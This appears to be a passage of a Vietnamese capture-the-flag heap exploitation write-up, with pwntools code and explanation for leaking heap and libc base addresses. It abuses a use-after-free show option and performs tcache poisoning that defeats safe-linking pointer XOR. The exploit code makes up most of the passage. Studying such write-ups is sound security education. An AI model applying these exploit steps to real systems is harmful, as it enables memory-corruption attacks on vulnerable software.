 ```
payload = p64(0)*3 + p64(0x501)
create(0, 0xf8, payload)

payload = (p64(0x0)+p64(0x101)) * 3
for i in range(5):
    create(0, 0xf8, payload)
create(1, 0xf8, b"1")
free(0)
show(0)
heap = int.from_bytes(p.recv(5), "little") << 4*3 
print("[+]Heap_base:    ", hex(heap))
```

Ở phần này mình set-up sẵn bao gồm:

1 chunk có fake chunk size với size là `0x101` và fake size là `0x501`

5 chunk với chunk size là `0x101`

Và thêm 1 chunk nữa để mình thực hiện kỹ thuật `Tcache Poisoning` lát nữa mình sẽ nói ở phần 2

Do cơ chế xor `[(chunk_addr) >> 12 ] ^ forward_ptr` để lưu lại vào `forward_ptr` của chính nó sau khi free cho nên ở đây mình sẽ thấy được `(0x558bb8c197a0 >> 12) ^ 0` = `0x0000000558bb8c19` và lưu lại tại chunk's data

![gdb3.png](images/gdb3.png)

![gdb2.png](images/gdb2.png)

Sử dụng options `2` do ở đây không check xem chunk đã được free chưa mà trực tiếp show và leak được địa chỉ heap

- STEP_2:   Leak libc

```
payload=p64((heap+0x8a0)>>12^(heap+0x2c0))
free(1)
edit(1, payload)
create(0, 0xf8, b"a"*0xf8)
create(0, 0xf8, b"b"*0xf8)
free(0)
show(0)
libc.address = int.from_bytes(p.recv(6), "little")  - 2202848
print("[+]Libc_base:    ", hex(libc.address))
```
